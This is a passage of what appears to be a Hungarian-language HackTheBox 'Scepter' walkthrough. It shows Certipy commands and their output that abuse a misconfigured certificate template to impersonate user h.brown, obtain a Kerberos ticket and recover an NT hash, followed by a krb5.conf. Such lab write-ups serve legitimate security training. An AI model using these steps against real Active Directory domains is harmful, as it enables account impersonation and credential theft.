 
## StaffAccessCertificate template abuse

```bash
certipy req -username "d.baker@scepter.htb" -hashes :18b5fb... -target "dc01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'
```

---

## NT hash szerzése h.brown userhez

```bash
certipy auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b5
```
Hash: `aad3b4...:4ecf52...`

---

## krb5.conf szerkesztés

```ini
[libdefaults]
    default_realm = SCEPTER.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    SCEPTER.HTB = {
        kdc = dc01.scepter.htb
        admin_server = dc01.scepter.htb
    }

[domain_realm]
    .scepter.htb = SCEPTER.HTB
    scepter.htb = SCEPTER.HTB
```

---